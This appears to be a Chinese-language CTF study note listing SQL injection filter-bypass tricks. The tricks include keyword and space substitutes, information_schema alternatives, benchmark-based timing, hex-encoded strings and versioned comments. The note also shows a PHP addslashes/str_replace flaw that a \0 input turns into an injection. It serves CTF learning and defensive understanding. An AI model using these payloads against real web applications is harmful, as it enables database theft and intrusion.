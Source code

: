 CTF/SQL/绕过

- > ~~反 waifu~~
- # 常见绕过手法
	- `or`和`and`
		- 使用`||`和`&&`代替
	- `information_schema`
		- `sys.schema_auto_increment_columns`
		- `select table_name from mysql.innodb_table_stats where database_name = database();`
		- `mysql.innodb_table_stats`
		- `(select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))`
		- [参考](https://www.jianshu.com/p/5aad090eb613)
	- `=`
		- 使用`like`或者`regexp`代替
	- 空格等
		- 使用`()`即`select(flag)from(xxx)`进行代替
			- 版本太低时无法使用
		- 使用`/**/`或者`<>`代替
		- `and 1=1` --> `and!!1=1`
		- `payload.replace(' ', chr(0x0b))`
			- mysql可用
	- `#`和`-`
		- 构造`||'`去闭合最后的`'`
	- `/*`
		- 使用`#\n`
	- `substr`
		- 试试`substring`
		- 可以使用`mid`代替
			- `mid(('ahahaha')from(1)for(3))`
		- 试试`left`和`right`
			- `right(left(TARGET,POSITION),1)`
	- 各类关键词（如`medium`）
		- 可以使用十六进制`0x6d656469756d`代替
		- `SELECT 'a' 'd' 'mi' 'n';`
		- `SELECT CONCAT('a', 'd', 'm', 'i', 'n');`
	- `^`
		- 可使用`$`来从后往前进行匹配
	- `where`
		- 可以使用 having
	- `select`
		- `table`
		- `handler`
	- `if`
		- `select case when (条件) then 代码1 else 代码 2 end`
		- `IFNULL()` ,  `NULLIF()`
	- `union select`
		- `union all select`
		- 注释
			- `union/**/select`
			- 单行注释配合换行
				- `union #\nselect`
			- `union/*!/*!10000select*/`
			-
	- `sleep`
		- `benchmark(10000000,sha(1))`
		- 利用[[regex/ddos]]卡时间，达到和sleep相同的效果
	- 引号
		- `/*!0x2e2a3fe6ada2e8a1802e2a3f*/`
		- ^^`/*!*/`  意为在xxx版本之上执行^^
- # 绕过 addslashes
	- ```php
	  $id=addslashes($id);
	  $path=addslashes($path);
	  
	  $id=str_replace(array("\\0","%00","\\'","'"),"",$id);
	  $path=str_replace(array("\\0","%00","\\'","'"),"",$path);
	  
	  $result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
	  ```
	  
	  使用`\0`可以消除单引号
	  
	  `\0'` -> `\\0'` -> `\'`
	  
	  因此，只要让`$id`为`\0`就可以让`$path`逃逸
	  
	  > 在处理字符串时，mysql 并不是逐字符解析的（因为还要考虑反引号），但是 addslash 加 str_replace 是逐字符解析的，这就造成了漏洞
	  >
	  > 举例：解析`1a\0'`
	  >
	  > `1 a \ 0 '` -> `1 a \\ 0 \' `(本应这么解析) -> `1 a \ \0 \'` -> `1 a \\'` -> `1 a`